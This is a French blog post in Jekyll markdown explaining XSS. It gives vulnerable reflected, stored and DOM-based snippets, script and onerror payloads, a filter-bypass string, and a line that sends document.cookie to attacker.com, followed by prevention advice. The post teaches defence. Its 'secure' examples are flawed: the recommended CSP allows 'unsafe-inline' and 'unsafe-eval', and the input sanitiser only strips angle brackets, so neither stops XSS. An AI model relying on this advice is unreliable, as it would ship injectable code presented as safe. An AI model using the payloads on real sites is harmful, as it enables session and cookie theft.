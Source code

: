 ```yaml
---
layout: post
title: "Vulnérabilités XSS : Comprendre et Prévenir"
date: 2024-03-26
image: /assets/images/posts/xss-security.jpg
tags: [web security, xss, javascript]
excerpt: "Une analyse approfondie des vulnérabilités XSS, leurs types, et les meilleures pratiques pour les prévenir."
---
```


Les vulnérabilités XSS (Cross-Site Scripting) restent l'une des menaces les plus courantes pour les applications web. Dans cet article, nous explorons en détail ce type de vulnérabilité.

## Types de XSS

### 1. XSS Réfléchi (Reflected)
```javascript
// Exemple vulnérable
const search = new URLSearchParams(window.location.search).get('q');
document.getElementById('results').innerHTML = `Résultats pour: ${search}`;
```

### 2. XSS Stocké (Stored)
```javascript
// Exemple vulnérable
function addComment(comment) {
    const comments = document.getElementById('comments');
    comments.innerHTML += `<div class="comment">${comment}</div>`;
}
```

### 3. XSS DOM-based
```javascript
// Exemple vulnérable
const hash = window.location.hash.substring(1);
document.write(hash);
```

## Techniques d'exploitation

### 1. Injection de script
```html
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
```

### 2. Bypass de filtres
```javascript
// Bypass de filter
<scr<script>ipt>alert('XSS')</scr</script>ipt>
```

### 3. Exfiltration de données
```javascript
fetch('https://attacker.com/steal?cookie=' + document.cookie);
```

## Prévention

### 1. Encodage approprié
```javascript
// Solution sécurisée
function escapeHTML(str) {
    return str.replace(/[&<>'"]/g, 
        tag => ({
            '&': '&amp;',
            '<': '&lt;',
            '>': '&gt;',
            "'": '&#39;',
            '"': '&quot;'
        }[tag]));
}
```

### 2. Content Security Policy (CSP)
```html
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';
```

### 3. Validation des entrées
```javascript
// Solution sécurisée
function sanitizeInput(input) {
    return input.replace(/[<>]/g, '');
}
```

## Bonnes pratiques

1. **Validation côté serveur**
   - Valider toutes les entrées
   - Utiliser des whitelists
   - Sanitizer les données

2. **Sécurité des cookies**
   - Utiliser HttpOnly
   - Activer Secure
   - Configurer SameSite

3. **Monitoring**
   - Détection des tentatives XSS
   - Logging des activités suspectes
   - Alertes en temps réel

## Outils de test

- Burp Suite
- OWASP ZAP
- XSS Hunter
- BeEF Framework

## Conclusion

La prévention des vulnérabilités XSS nécessite une approche multi-couches combinant validation, encodage et politiques de sécurité appropriées.

---

*Prochain article : Protection avancée contre les attaques XSS* 